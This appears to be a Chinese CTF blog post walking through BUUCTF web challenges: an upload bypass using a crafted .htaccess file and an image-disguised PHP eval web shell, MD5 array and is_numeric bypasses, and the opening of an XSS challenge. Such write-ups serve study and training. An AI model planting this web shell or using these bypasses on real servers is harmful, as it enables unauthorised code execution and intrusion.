


# BUUCTF Web记录 4


已经到第4篇了，不容易啊

<!--more-->

## 0x00 [MRCTF2020]你传你🐎呢
[题目链接](https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2)

开头的日本人给我吓到了😅


试了一下，php/php2/php3/phtml什么的都传不了，jpg可以传

那么思路就比较明显了，又是上传`.htaccess`或者`.user.ini`文件来使得服务端将图片🐎当作php文件解析。

上传`.htaccess`文件，文件内容：

```
GIF89a
<FilesMatch "leo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

这一步需要用Burp拦截请求，手动修改`Content-Type: application/octet-stream`为`Content-Type: image/png`。

然后上传`leo.jpg`，其中写入

```php
GIF89a
<script language='php'>@eval($_POST['ye']);</script>
```

蚁剑连接即可。

## 0x01 [MRCTF2020]Ez_bypass

[题目链接](https://buuoj.cn/challenges#[MRCTF2020]Ez_bypass)

这题就这？

根据提示看php源码

```html
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

存在两层需要绕过

第一层，满足两个get请求参数的md5强相等但是参数不相等，这显然是传数组呀。需要记住的是，对于php后端，get请求传递数组的方式为`/?a[]=1`，这样相当于传递了`a = [1]`，`/?a[]=1&a[]=2`则相当于传递了`a = [1, 2]`。



第二层要求post的参数经`is_numeric()`返回`false`，但是要能够满足`==1234567`。百度一下`is_numeric()`绕过即可，最简单的方式就是post一个字符串`1234567 `，注意后面加了个空格。`1234567%00`同样可以满足要求。


### 参考链接

- [[CTF]php is_numeric绕过](https://blog.csdn.net/qq_33583069/article/details/115562765)

## 0x02 [网鼎杯 2018]Fakebook

[题目链接](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)

fakebook，自己提交信息然后点join，就可以在网站上看到，~~这题应该是xss~~。

试了一下，用户名可以xss。



